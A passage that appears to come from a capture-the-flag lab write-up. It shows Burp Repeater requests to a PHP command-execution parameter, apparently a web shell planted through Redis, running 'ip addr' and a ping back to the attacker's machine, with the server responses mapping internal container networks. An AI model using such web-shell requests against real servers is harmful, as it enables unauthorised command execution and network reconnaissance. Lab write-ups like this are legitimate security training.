 ```
Content-Length: 14

ippsec=ip addr	// can change executed command here
```

=> Send

```
HTTP/1.1 200 OK
Date: Sun, 09 Jan 2022 12:38:21 GMT
Server: Apache/2.4.10 (Debian)
X-Powered-By: PHP/7.0.30
Vary: Accept-Encoding
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 860

REDIS0008�      redis-ver4.0.9�
�edis-bits�@�ctime±��aused-mem¸?
 aof-preamble���PleaseSubscribe"1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
13: eth0@if14: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:14:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.20.0.3/16 brd 172.20.255.255 scope global eth0
       valid_lft forever preferred_lft forever
15: eth1@if16: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.3/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever
�p��j��N
```

We have:

- 172.19.0.3/16
- 172.20.0.3/16

The previous container had:

- 172.18.0.2/16
- 172.19.0.4/16

What if only 18 can talk to us but 19 cannot.

Change command in Repeater:

	ippsec=ping -c1 10.10.16.12	// our kali box

```
HTTP/1.1 200 OK
Date: Sun, 09 Jan 2022 12:47:31 GMT
Server: Apache/2.4.10 (Debian)
X-Powered-By: PHP/7.0.30
Vary: Accept-Encoding
Content-Length: 115
Connection: close
Content-Type: text/html; charset=UTF-8

REDIS0008ú	redis-ver4.0.9ú
redis-bitsÀ@úctimeÂDÙÚaúused-memÂ0î
```
